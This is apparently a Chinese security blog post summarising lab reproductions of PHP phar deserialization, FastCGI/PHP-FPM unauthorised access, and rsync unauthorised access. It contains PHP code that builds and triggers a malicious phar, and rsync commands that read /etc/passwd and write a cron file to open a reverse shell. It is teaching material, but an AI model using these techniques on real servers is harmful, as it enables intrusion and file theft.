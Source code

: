 ```yaml
---
title: phar & fastcgi & rsync 漏洞小结
date: 2018-10-14 20:02:29
tags:
---
```


# 前言

几个简单复现了下的漏洞类型，但是又我之前没学过的。

总是喜欢记录一下，但是又不想分开三篇来记录，就合到了一篇里面。

# phar反序列化

前段时间black hat会议上新提出的一种攻击手法（但orange师傅2017年就用这个在hitcon出过题）

主要是利用`phar://`协议在解析数据的时候，会触发一次`unserialize`，从而产生反序列化

## phar文件格式

文件格式里有那么几个比较重要的参数

### stub

为一个phar的标志，格式为

```
xxx<?php xxx; __HALT_COMPILER();?>
```

后面必须以`__HALT_COMPILER();?>`结尾，否则无法识别

### manifest

会以**序列化**形式存储用户自定义的`meta-data`

也就是这块内容在解析的时候会被反序列化，从而产生反序列化漏洞

### file contens

被压缩的文件内容

### signature

文件签名

## demo

首先测试生成一个`phar`文件

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("1.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

主要要设置的就三个值

- `setStub`： 一般为固定值 `<?php __HALT_COMPILER(); ?>`或者也可以添加一些自定义文件头之类的
- `setMetadata`：需要反序列化的类
- `addFormString`：文件名和文件内容可以随意填，这里文件名（这里为`test.txt`到后续需要使用


重命名为`1.jpg`，然后尝试触发

```php
<?php 
    class TestObject {
        public function __destruct() {
            echo 'Destruct called';
        }
    }
    $filename = 'phar://1.jpg/test.txt';
    file_exists($filename); 
?>
```

![](phar-fastcgi-rsync-漏洞小结\2.png)

`test.txt`就是之前的文件名，成功反序列化

而且可以触发的函数也比较多

![1](phar-fastcgi-rsync-漏洞小结\1.png)

## 注意事项

需要注意的就是，文件存在的时候需要先删掉才能重建

文件后缀必须为`.phar`，但是生成好之后可以改

这样，无疑极大的拓展了反序列化的攻击面，无需强制使用`unserialize`。只要能完全控制文件名，甚至文件名的前面一部分，就可以触发反序列化。感觉触发的场景无疑多了许多，主要任务就是寻找pop chain了。



# Fast-cgi未授权访问

## 漏洞原理

Fastcgi是一种跟高效的php与webserver之间通信的协议。

PHP-FPM是一个fastcgi协议解析器，webserver将用户请求按照fastcgi的规则打包好后传给FPM。

当fastcgi端口（默认为9000）暴露在公网中时，就可以伪造fastcgi协议通信内容，从而执行php

当端口没有暴露的时候，也是可以通过SSRF进行攻击的

具体原理和分析可以看https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

## 复现

漏洞环境用p神的vulhub

https://github.com/vulhub/vulhub/tree/master/fpm

脚本

https://github.com/kingkaki/Exploit-scripts/blob/master/fast-cgi/fpm.py

![](phar-fastcgi-rsync-漏洞小结\3.png)



# rsync 未授权访问漏洞

> rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

在没有设置密码的时候，就可以任意文件读取和写入，在内网渗透的时候用处较大

  

可以通过访问`/src`目录看到备份了的文件

```
rsync rsync://localhost:873/src/
```

或者

```
rsync 127.0.0.1::src
```



![](phar-fastcgi-rsync-漏洞小结\4.png)

  

任意文件下载

```
rsync -av  rsync://localhost:873/src/etc/passwd ./
```

![](phar-fastcgi-rsync-漏洞小结\5.png)

  

还可以写入文件，例如写一个定时任务，反弹shell

```
rsync -av shell rsync://localhost:873/src/etc/cron.d/shell
```

![](phar-fastcgi-rsync-漏洞小结\6.png)



# Reference

https://paper.seebug.org/680/

https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

https://github.com/vulhub/vulhub